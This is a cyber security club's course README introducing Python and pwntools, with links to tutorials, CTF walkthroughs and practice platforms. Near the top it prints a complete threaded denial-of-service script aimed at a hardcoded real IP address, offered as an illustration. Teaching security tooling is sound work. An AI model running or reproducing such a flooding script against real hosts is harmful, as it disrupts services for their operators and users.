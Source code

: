 # Section-2 (Python) 🐍

Welcome to the second section of LS: Tools for Cyber Security :) </br>
This week we will be covering Python along with one of its very powerful library **pwntools**.
<p align="center">
<img src="https://user-images.githubusercontent.com/81357954/153569492-a10ef6ad-3e2a-45ed-bb46-8758eae71cbf.png" alt="drawing" width="400"/>
</p>

**Why it is called Python [:)?](https://docs.python.org/3/faq/general.html#:~:text=Details%20here.-,Why%20is%20it%20called%20Python%3F,to%20call%20the%20language%20Python.)** </br>

[**Python**](https://en.wikipedia.org/wiki/Python_(programming_language)) is an [interpreted](https://www.ibm.com/docs/en/zos-basic-skills?topic=zos-compiled-versus-interpreted-languages) general-purpose programming language. It is one of the most popular and widely-used programming languages in the world due to its high usability and large collection of libraries. 
Again Python is an open source software like Linux. So you can look up its source code [here](https://github.com/python/cpython), though you are not encouraged to read them 🦖.

Is Python itself written in C or C++? [An interesting read](https://softwareengineering.stackexchange.com/questions/20988/why-is-python-written-in-c-and-not-in-c) on this.
Unlike C or C++, Python has [automatic memory management](https://www.geeksforgeeks.org/memory-management-in-python/) i.e. in Python memory allocation and deallocation method is automatic, since it has its own garbage collector, so that the user does not have to do manual garbage collection. Python is a [dynamically typed](https://www.geeksforgeeks.org/type-systemsdynamic-typing-static-typing-duck-typing/) programming language which makes it more succint. 

We prefer Python in cyber security, because complex scripts or attacks can be easily written in it. It helps to automate tasks across the cyberattack life cycle for both cyber attackers and defenders. Also, debugging python codes is quite simple.

``` python
import socket
import threading
target = '103.21.127.134'
fake_ip = '182.21.20.32'
port = 80
def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
```
<p align="center">
  Snippet of a simple <a href ="https://en.wikipedia.org/wiki/Denial-of-service_attack">DoS attack</a> script in python. 
</p>


## Installation
We are not taking up `how to install python`. Since it is available by default on Linux. Also, just a google search away :).</br>
[Here](http://docs.pwntools.com/en/latest/install.html) is the link to install `pwntools`. Though it comes pre installed on the VM we have provided.

## Overview
This week's content includes an introduction to Python(syntax and such stuff). These resources will make you comfortable with python.</br>
Followed by an introduction to [pwntools](http://docs.pwntools.com/en/latest/), an interesting framework. `Pwntools` in itself is a huge package and even a dedicated module would be less to know everything about it. It will get you familiar with writing exploit scripts in Python.</br>
Some other important modules/libraries regularly used are [sys](https://docs.python.org/3/library/sys.html), [os](https://docs.python.org/3/library/os.html), [subprocess](https://docs.python.org/3/library/subprocess.html), all these are in-built python modules.

## Our Introductory Session for Python

[CSeC - Intro to Python](https://iitbacin.sharepoint.com/:v:/s/CSecClub/ETXm3oSRRoJKgKDCaKLiRbYBTh5fLAYkaow3MX59-5FTyQ?e=1rRkWg) | [Colab Notebook link](https://colab.research.google.com/drive/1jtco0kzb9pg7eAPUEh4VEAP8k7Iq1J3P?usp=sharing)

Credits to [scimaths](https://github.com/scimaths) 🙏
## Text guides

1. [Pico Primer(python + other basics)](https://primer.picoctf.com/#_programming_in_python)
2. [Intro to Python](http://introtopython.org/) (You may skip classes)
3. [Pwntools Cheat Sheet](https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf)

## Video guides
- Another brief learn python [playlist](https://www.youtube.com/playlist?list=PLQVvvaa0QuDeAams7fkdcwOGBpGdHpXln) (The first 8 videos (85 mins) of the playlist are enough to get you going, you may skip the remaining videos :)


## CTF challenge Walkthroughs
1. string evaluation of input in python2 [HSCTF - Python Remote Code Execution ](https://www.youtube.com/watch?v=gmaWOknsb2A) (5 min) | Read more about Python2.x [input vulnerability](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)
1. pwntools process interaction [GOOGLE CTF 2021](https://www.proggen.org/doku.php?id=security:ctf:writeup:google:2021:filestore) (good read)
2. pwntools in bash [TAMU CTF 2020](https://www.youtube.com/watch?v=fZ3mPRctbO0) (17 mins)
3. Request module usage [OverTheWire natas level4](https://www.youtube.com/watch?v=Sf63W1xXzNU) (11  mins)
4. Pyjail  [Offshift 2021](https://www.youtube.com/watch?v=aK3b0PM1Fz8) (6 mins)

## Practice
- [PicoGym](https://play.picoctf.org/practice) (Filter challenges by **General Skills**)


Discussions among mentees are encouraged and we request you to use the corresponding Team on MS Teams or the corresponding WhatsApp group for the same.
<p align="center">Created with :heart: by <a href="https://cseciitb.github.io/">CSeC</a></p>
